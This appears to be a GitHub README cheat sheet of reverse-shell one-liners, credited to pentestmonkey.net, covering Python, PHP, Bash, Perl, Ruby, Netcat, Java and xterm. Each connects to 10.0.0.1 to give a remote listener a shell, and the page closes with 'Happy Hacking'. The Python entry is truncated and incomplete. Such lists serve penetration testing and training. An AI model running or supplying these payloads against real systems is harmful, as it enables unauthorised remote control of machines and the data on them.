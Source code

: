# Reverse Shell
It has reverse shell code of various technologies. Thanks to pentestmonkey.net

## Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

## PHP

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## Bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## Netcat

nc -e /bin/sh 10.0.0.1 1234

## Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## xterm

xterm -display 10.0.0.1

## Important Note

If the technology version changed these codes may not work. Please check out https://pentestmonkey.net for latest update.

Happy Hacking
